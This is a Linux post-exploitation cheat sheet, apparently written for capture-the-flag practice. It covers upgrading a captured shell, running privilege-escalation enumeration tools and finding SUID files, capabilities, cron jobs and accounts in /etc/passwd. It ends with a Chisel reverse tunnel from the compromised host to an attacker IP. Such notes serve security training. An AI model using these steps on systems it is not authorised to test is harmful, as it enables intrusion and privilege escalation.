 ## *update shell*
```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset 
screen
```

```
python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo; fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  
```

## Automated script
```
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
unix-privesc-check
Mestaploit: multi/recon/local_exploit_suggester

```
### GTFONow
https://github.com/Frissi0n/GTFONow
### lse
https://github.com/diego-treitos/linux-smart-enumeration
## _distrib info_
```
lsb_release -a
```

```
sudo -l
```
## _find SUID files_
```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

```
## _user's files_
```
find / -user admin -exec ls -ld {} \; 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
## _users_ (display lines finished by sh)
```
cat /etc/passwd | grep sh$

```
## _ExploitCapability_
```
getcap -r / 2>/dev/null
```
## *con.d*
```
ls -la /etc/cron.d
```
## _ss_
```
ss -tunl
```
## _process_
```
ps auxww
```
## _search ps log_
```
./pspy
```
## Proxy_chain
redirect the request to my machine
```
export http_proxy=http://adresse_du_proxy:port_du_proxy
```
### Partage des ports de la cible sur ma machine
On utilise *Chisel* https://github.com/jpillora/chisel/releases/tag/v1.9.1
### creation du serveur proxi sur ma machine
└─# 
```
./chisel server -p 8000 --reverse
```

www-data@only4you:/tmp$
```
./chisel client 10.10.17.161:8000 R:127.0.0.1:3000 R:127.0.0.1:8001
```
